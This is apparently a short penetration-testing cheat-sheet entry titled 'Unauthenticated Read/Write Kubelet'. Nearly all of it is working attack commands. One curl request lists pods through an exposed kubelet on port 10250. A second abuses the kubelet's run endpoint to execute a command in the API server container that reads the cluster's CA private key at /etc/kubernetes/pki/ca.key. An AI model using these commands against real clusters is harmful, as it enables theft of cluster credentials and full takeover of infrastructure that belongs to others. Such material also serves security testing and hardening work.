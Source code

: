 ## Unauthenticated Read/Write Kubelet

1. Exploiting this takes a couple of steps
2. Get a list of running pods curl -k https://[CLUSTERIP]:10250/pods/ | jq
3. From this output find the name of the pod and container running the Kubernetes API server
4. Retrieve the key curl https://[CLUSTERIP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=cat /etc/kubernetes/pki/ca.key"